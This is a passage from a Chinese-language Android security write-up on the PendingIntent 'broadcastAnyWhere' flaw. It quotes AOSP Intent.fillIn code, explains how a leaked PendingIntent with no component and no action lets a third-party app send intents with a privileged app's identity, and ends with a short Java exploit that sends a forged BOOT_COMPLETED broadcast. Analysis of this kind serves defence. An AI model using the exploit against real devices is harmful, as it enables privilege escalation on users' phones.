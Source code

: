 ```java
    if (other.mComponent != null && (flags&FILL_IN_COMPONENT) != 0) {
        mComponent = other.mComponent;
        changes |= FILL_IN_COMPONENT;
    }
    mFlags |= other.mFlags;
    if (other.mSourceBounds != null
            && (mSourceBounds == null || (flags&FILL_IN_SOURCE_BOUNDS) != 0)) {
        mSourceBounds = new Rect(other.mSourceBounds);
        changes |= FILL_IN_SOURCE_BOUNDS;
    }
    if (mExtras == null) {
        if (other.mExtras != null) {
            mExtras = new Bundle(other.mExtras);
        }
    } else if (other.mExtras != null) {
        try {
            Bundle newb = new Bundle(other.mExtras);
            newb.putAll(mExtras);
            mExtras = newb;
        } catch (RuntimeException e) {
            // Modifying the extras can cause us to unparcel the contents
            // of the bundle, and if we do this in the system process that
            // may fail.  We really should handle this (i.e., the Bundle
            // impl shouldn't be on top of a plain map), but for now just
            // ignore it and keep the original contents. :(
            Log.w("Intent", "Failure filling in extras", e);
        }
    }
    return changes;
}
```

之前传入的finalIntent为`new Intent()`，mAction, mData, mType均为null，所以可以被任意指定fillIntent的内容(除了component之外)。

所以大多数情况下，PendingIntent的安全风险主要发生在下面两个条件同时满足的场景下：

1. 构造PendingIntent时的原始Intent既没有指定Component，也没有指定action
2. 将PendingIntent泄露给第三方

原因是，如果原始Intent的Component与action都为空（“双无”Intent），B就可以通过修改action来将Intent发送向那些声明了intent filter的组件，如果A是一个有高权限的APP（如settings就具有SYSTEM权限），B就可以以A的身份做很多事情。

### 利用

接收pendingIntent并send一个恶意的广播信息

```java
// the exploit of broadcastAnyWhere
final String KEY_CALLER_IDENTITY = "pendingIntent";
PendingIntent pendingintent = options.getParcelable(KEY_CALLER_IDENTITY);
Intent intent_for_broadcast = new Intent("android.intent.action.BOOT_COMPLETED");
intent_for_broadcast.putExtra("info", "I am bad boy");
 
try {
    pendingintent.send(mContext, 0, intent_for_broadcast);
} catch (CanceledException e) {
    e.printStackTrace();
}
```
